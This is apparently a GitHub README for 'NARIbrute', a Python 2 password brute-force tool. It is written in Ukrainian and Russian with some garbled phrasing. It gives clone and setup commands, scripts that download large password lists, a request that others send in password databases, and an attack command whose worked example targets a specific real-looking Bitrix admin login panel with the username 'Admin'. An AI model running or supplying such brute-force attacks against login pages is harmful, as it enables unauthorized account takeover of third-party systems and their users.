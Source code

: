 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Паролів зараз ~29000</h3>
<img src="https://i.ibb.co/bJ0f863/Screenshot-2022-06-16-16-35-09-31-84d3000e3f4017145260f7618db1d683.jpg" alt="icon">
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм у фарматі .txt @samurai_gh<br>
Можна сказати що він "універсальний" якщо форма відправки така <br>
post login[username]<br>
post login[password]<br>
Ті хто шарать зрозуміють<br>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Завантажити повну базу 10000 паролів<br>
```
python2 full.py
```
Якщо потрібно скачати базу за номером(Для того щоб розсортувати по машинах) . Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель/вхід<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
